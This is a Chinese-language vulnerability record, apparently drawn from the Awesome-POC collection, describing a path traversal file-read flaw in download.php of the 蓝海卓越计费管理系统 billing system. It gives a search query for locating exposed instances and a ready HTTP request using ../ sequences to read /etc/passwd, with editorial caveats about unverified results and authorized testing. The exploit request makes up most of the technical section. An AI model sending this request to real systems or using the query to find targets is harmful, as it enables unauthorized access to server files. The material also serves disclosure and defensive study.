

# 蓝海卓越计费管理系统 download.php file路径遍历读取

## 条目说明

- 对象与具体问题：蓝海卓越计费管理系统；download.php file路径遍历读取
- 版本、配置及部署条件：版本未知，Linux
- 认证与权限前提：请求带PHP会话
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 共享Cookie后空行导致Connection头进正文及空标题缺陷；无修复范围

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

蓝海卓越计费管理系统 download.php文件存在任意文件读取漏洞，攻击者通过 ../ 遍历目录可以读取服务器上的敏感文件

### 漏洞影响

```
蓝海卓越计费管理系统
```

### 网络测绘

```
title=="蓝海卓越计费管理系统"
```

### 漏洞复现

登录页面如下


出现漏洞的文件为 download.php ，其中 file参数 存在用户可控


发送如下请求包


```http
GET /download.php?file=../../../../../etc/passwd HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=q************************7; mylang=zh_s

Connection: close
```




##


---

> 来源：Threekiii/Awesome-POC
